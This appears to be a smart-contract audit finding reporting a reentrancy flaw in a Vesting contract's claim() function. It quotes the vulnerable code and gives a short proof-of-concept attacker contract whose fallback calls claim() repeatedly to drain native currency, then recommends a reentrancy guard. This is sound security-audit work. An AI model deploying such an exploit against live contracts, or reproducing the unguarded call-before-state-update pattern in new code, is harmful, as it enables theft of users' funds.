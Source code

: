Blurry Mossy Mockingbird

high

# Reentrancy vulnerability in claim() function allow malicious user to drain funds from Vesting contract



## Summary
Reentrancy vulnerability in claim() function allow malicious user to drain funds from Vesting contract
## Vulnerability Detail
Claim() function includes external call to `msg.sender` before state changing. 


    function claim() external {
        address sender = msg.sender;

        UserDetails storage s = userdetails[sender];
        require(s.userDeposit != 0, "No Deposit");
        require(s.index != vestingPoints.length, "already claimed");
        uint256 pctAmount;
        uint256 i = s.index;
        for (i; i <= vestingPoints.length - 1; i++) {
            if (block.timestamp >= vestingPoints[i][0]) {
                pctAmount += (s.userDeposit * vestingPoints[i][1]) / 10000;
            } else {
                break;
            }
        }
        if (pctAmount != 0) {
            if (address(token) == address(1)) {
                //@audit external call
                (bool sent, ) = payable(sender).call{value: pctAmount}("");
                require(sent, "Failed to send BNB to receiver");
            } else {
                token.safeTransfer(sender, pctAmount);
            }
            //@audit state changing
            s.index = uint128(i);
            s.amountClaimed += pctAmount;
        }
    }

That call will trigger next `claim()` call in fallback function of `msg.sender` until contract emptied.

        contract MalisiousClaimer {
        address public victimVesting;

        constructor(address _victimVesting) {
            victimVesting = _victimVesting;
        }

        function start() public {
            victimVesting.call(abi.encodeWithSignature("claim()"));
        }

        fallback() external payable {
            if (msg.value <= victimVesting.balance) {
                victimVesting.call(abi.encodeWithSignature("claim()"));
            }
        }
    }
## Impact

All native currency could be drained from Vesting contract

## Code Snippet

https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/Vesting.sol#L67

## Tool used

Manual Review

## Recommendation

Consider adding reentrancy guard modifier